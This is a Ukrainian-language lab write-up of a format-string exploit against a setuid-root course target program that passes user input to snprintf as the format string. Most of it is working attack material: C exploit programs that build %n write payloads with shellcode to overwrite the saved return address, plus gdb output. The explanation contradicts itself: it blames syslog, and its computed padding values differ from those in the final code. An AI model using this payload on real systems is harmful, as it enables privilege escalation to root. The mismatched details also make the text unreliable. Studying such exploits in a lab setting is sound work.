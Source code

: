 # Format string

Загальний клас уразливості рядка формату це тип вразливості може з’явитися, якщо два різні типи інформаційних каналів об’єднані в один, а спеціальні символи екранування або послідовності використовуються для розрізнення того, який канал наразі активний. Найчастіше один канал є каналом даних, який не аналізується активно, а просто копіюється, тоді як інший канал є контрольним каналом. Хоча це не погана річ сама по собі, вона може швидко стати жахливою проблемою безпеки, якщо зловмисник зможе подати вхід, який використовується в одному каналі. Часто трапляються несправні процедури виходу або виходу з режиму втечі, або вони контролюють рівень, наприклад, уразливості рядків формату. Отже, якщо коротко: проблеми з каналуванням - це не прогалини в безпеці, але вони роблять помилки придатними для використання.

Розглянемо /proj1/targets/target5.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
 


int foo(char *arg)
{
  char buf[400];
  snprintf(buf, sizeof buf, arg);
  return 0;
}

int main(int argc, char *argv[])
{
  if (argc != 2)
    {
      fprintf(stderr, "target5: argc != 2\n");
      exit(EXIT_FAILURE);
    }
  setuid(0);
  foo(argv[1]);
  return 0;
}
```

Тут уразливість полягає у другому параметрі функції syslog. Рядок формату частково надається користувачами. Надаючи рядок формату, ми можемо контролювати поведінку функції форматування.

Якщо отриманий рядок буде довшим за 399 символів, решта символів відкидаються і не зберігаються. Отже, функція перевіряє довжину вхідного аргумента, тому звичайне переповнення буфера неможливе.

Слід зауважити, що функція snprintf приймає на вхід аргумент у вигляді рядка і безпосередньо копіює у буфер, не перевіряючи вміст, адже у ній не задано специфікатора формату, а тому будь-який із них, що скопіюється у рядок, буде мати функцію керуючого символу.

Отже, можна у якості аргумента використати спеціальний символ %n, що здійснює запис за вказівником, переданим у якості аргумента, кількості символів, записаних на момент появи командної послідовності, яка містить n у довільну адресу.

_&lt;будь-який байт&gt;&lt;%08x&gt;+&lt;%n&gt; повинен бути в snprintf та ефективно перезаписати вміст за адресою на %n кількості вже напечатанних байт. Критична частина правильно вказує число% 08x, щоб вказати стек, який вказав на адресу buf._

_8 говорить, що ви хочете показати 8 цифр 0, до якого потрібно додати префікс 0, а не просто порожні пробіли x, який потрібно надрукувати в малій шістнадцятковій літери._

_Коли snprintf \(\) досягне цієї послідовності %08x, він буде шукати змінні, які відповідають% x у стеку. Однак, оскільки там немає змінних, це просто перемістить внутрішній покажчик функції вниз по стеку. Мета полягає в тому, щоб розмістити цю точку в просторі над буфером, де друкується наш рядок._

_Наступний шматок рядка використовує модифікатор %n. Коли snprintf \(\) бачить %n, він шукає наступну змінну в стеці і записує на вказану адресу._

```bash
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "/tmp/target5"

int main(void)
{
    char buf[400];
      int i;
      int addr;
      char * fmt_str;

      addr = 0xaaaaaaaa;
      fmt_str = "%08x%n";
      for(i = 0; i < 400; i++) {
        if(i < 4) {
          *(buf + i) = addr >> (i * 8); // <address>
        } else if(i < (399 - strlen(fmt_str))) {
          *(buf + i) = 'a'; // <any byte>
        } else if(i < 399) {
          memcpy(buf + i, fmt_str, strlen(fmt_str)); // <format string>
          i += strlen(fmt_str) - 1;
        } else {
          *(buf + i) = '\x00'; // terminate with null
        }
      }

  char *args[] = { TARGET, buf, NULL };
  char *env[] = { NULL };

  execve(TARGET, args, env);
  fprintf(stderr, "execve failed.\n");

  return 0;
}
gdb -e sploit5 -s /tmp/target5
(gdb) catch exec
(gdb) r
(gdb) b foo
(gdb) c
Continuing.

Breakpoint 2, foo (arg=0xbffffe5f "\252\252\252\252", 'a' <repeats 196 times>...) at target5.c:9
9     snprintf(buf, sizeof buf, arg);
(gdb) x arg
0xbffffe5f: 0xaaaaaaaa
(gdb) b snprintf
(gdb) c
(gdb) info frame
...

    eip at 0xbffffb3c
```

_Отже це arg=0xbffffe5f це адресса где лежить формат. Далі рядок займає 400 байт після цієї адреси. eip в snprintf - 0xbffffb3c._

_Тож, можна перевизначити адресу, куди здійсниться вихід із функції, на адресу з діапазону, що належить аргументу і вміст якого можна контролювати \(потенційно записати у це місце шеллкод\). Отже, необхідно переписати 4 байти значення, що зберігається у eip._

_Це можна зробити використавши специфікатор %n. Можна сформувати рядок сплойта довжиною 400 байт таким чином, щоб у початку містився форматний рядок, а останні 45 байтів займав шелл код._

_Визначивши, що arg починається за адресою 0xbffffe5f, можна розраххувати місце знаходження шеллкоду:_

```text
400 - 45 = 355 = 0x163
0xbffffe5f+0x163=0xbfffffc2
```

\*Тож, форматний рядок виглядатиме наступним чином: %194u%n%61u%n%256u%n%192u%n

_hex\(194\)=c2, hex\(194+61\)=ff, hex\(194+61+256\)=1ff, hex\(194+61+256+192\)=2bf Тепер слід записати адреси байт, які будуть змінюватись: \x3c\xfb\xff\xbf, \x3d\xfb\xff\xbf, \x3e\xfb\xff\xbf, \x3f\xfb\xff\xbf._

_Але оскільки кожен запис десяткового беззнаковго числа %u зсуває адреси на 4 байти, між адресами необхідно додати байти заповнення. Враховуючи, що при цьому на початку форматного рядка буде записано 32 байти, їх необхідно відняти від %194u%n%61u%n%256u%n%192u%n: 194–32=162, 61–32=29, 256–32=224, 192–32=160. Отже, форматний рядок виглядатиме наступним чином: str = “\xff\xff\xff\xff\x3c\xfb\xff\xbf” “\xff\xff\xff\xff\x3d\xfb\xff\xbf” “\xff\xff\xff\xff\x3e\xfb\xff\xbf” “\xff\xff\xff\xff\x3f\xfb\xff\xbf” “162%u%n%29u%n%224u%n%160u%n”;_

```c
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "/tmp/target5"

int main(void)
{
  char buf[400];
  char *str;

  str = "\xff\xff\xff\xff\x3c\xfb\xff\xbf"
        "\xff\xff\xff\xff\x3d\xfb\xff\xbf"
        "\xff\xff\xff\xff\x3e\xfb\xff\xbf"
        "\xff\xff\xff\xff\x3f\xfb\xff\xbf"
            "%153u%n%70u%n%256u%n%192u%n";

  memset(buf, 0x90, 399);
  memcpy(buf, str, strlen(str));
  memcpy(buf+399-strlen(shellcode), shellcode, strlen(shellcode));

    char *args[] = { TARGET, buf, NULL };
    char *env[] = { NULL };

    execve(TARGET, args, env);
    fprintf(stderr, "execve failed.\n");

    return 0;
  }
```

